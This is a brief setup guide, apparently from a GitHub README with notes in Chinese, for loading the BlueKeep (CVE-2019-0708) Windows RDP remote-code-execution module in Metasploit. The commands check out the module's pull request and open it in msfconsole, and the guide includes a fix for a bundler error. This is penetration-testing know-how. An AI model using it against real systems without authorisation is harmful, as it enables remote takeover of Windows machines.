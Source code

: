 ```shell
sudo apt-get install libsqlite3-dev libpq-dev libpcap-dev -y
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit-framework
git fetch origin pull/12283/head:bluekeep
git checkout bluekeep
gem install bundler && bundle
./msfconsole
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

> 如果出现如下错误:
```shell
/usr/local/bundle/bin/bundle:104:in `load': cannot load such file -- /usr/local/lib/ruby/gems/2.4.0/gems/bundler-1.16.1/exe/bundle (LoadError)

	from /usr/local/bundle/bin/bundle:104:in `<main>'
```
可以尝试使用如下命令修复:
```shell
gem update --system
gem pristine bundler
```

> 仅在Debian测试过

> 参考: https://pentest-tools.com/blog/bluekeep-exploit-metasploit/ 
